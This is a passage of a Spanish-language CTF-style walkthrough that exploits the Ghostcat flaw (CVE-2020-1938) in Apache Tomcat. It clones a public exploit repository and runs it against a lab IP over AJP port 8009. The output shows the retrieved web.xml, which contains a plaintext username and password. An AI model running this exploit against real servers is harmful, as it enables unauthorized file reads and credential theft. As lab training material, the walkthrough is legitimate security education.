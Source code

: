  - [CVE-2020-1938](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md)

Para nuestro caso, vamos a utiizar el repositorio [CVE-2020-1938](https://github.com/dacade/CVE-2020-1938) para utilizar python3. Por lo tanto, nos descargamos los recursos a nuestra máquina:

```
❯ git clone https://github.com/dacade/CVE-2020-1938
Cloning into 'CVE-2020-1938'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 15 (delta 3), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), 6.74 KiB | 6.74 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```

Ejecutamos el script de acuerdo a como nos indica el dueño del repositorio:

```
❯ cd CVE-2020-1938
❯ python3 tomcat.py 10.10.168.168 -f /WEB-INF/web.xml -p 8009
Getting resource at ajp13://10.10.168.168:8009/hissec
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
